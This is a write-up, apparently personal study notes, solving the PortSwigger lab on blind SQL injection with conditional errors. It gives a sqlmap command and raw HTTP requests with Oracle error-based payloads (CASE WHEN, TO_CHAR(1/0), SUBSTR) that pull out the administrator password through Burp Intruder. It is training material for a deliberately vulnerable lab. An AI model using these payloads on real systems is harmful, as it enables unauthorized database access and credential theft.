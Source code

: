 # [Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## tools

sqlmap: failed:

- sqlmapr:

```http
GET / HTTP/1.1
Cookie: TrackingId=*; 
```

- `sqlmap -r sqlmapr --level=5 --risk=3 --technique E -dbms=oracle -batch`

## manual

1. Detect SQLi:

    ```http
    GET /login HTTP/1.1
    Host: 0afa00310492715fc04e4ad100b30028.web-security-academy.net
    Cookie: TrackingId='; session=ycENcTtu8h6unVYLddxjbGHwamrBBYGy
    ```

    - result: 500
    - => The server will return an error if the query syntax is incorrect

2. Determining the number of columns using burp's intruder:
    - positions: `TrackingId=gp2SbVXwwSsrKYXK'+ORDER+BY+§§--;`
    - payloads: 1 -> 10
    - result: 1

3. Determine the length of admin password:

    - positions:

        ```http
        GET / HTTP/1.1
        Host: 0a64001f0343d514c3733e73004a00e0.web-security-academy.net
        Cookie: TrackingId=R'+UNION+SELECT+CASE+WHEN+username='administrator'+AND+LENGTH(password)%3d§§+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+users--
        ```

    - payloads: 1-> 30
    - result: 20

4. Find password: use SUBSTR (oracle) and burp's intruder.

    - attack mode: cluster bomb
    - positions:

    ```http
    GET / HTTP/1.1
    Host: 0a5600bf03f79d08c0d9bee70045003c.web-security-academy.net
    Cookie: TrackingId='+UNION+SELECT+CASE+WHEN+username='administrator'+AND+SUBSTR(password,§§,1)%3d'§§'+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+users--;
    ```

    - payloads:
    - Set 1: 1->20 (password length)
    - Set 2: a->z, A->Z, 1->9
    - filter: response status code 500
    - result:
        ![result.png](./../img/lab-12-result.png)

5. Login to admin account => Lab Solved

6. Better Solution:

    ```sql
    xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
    ```
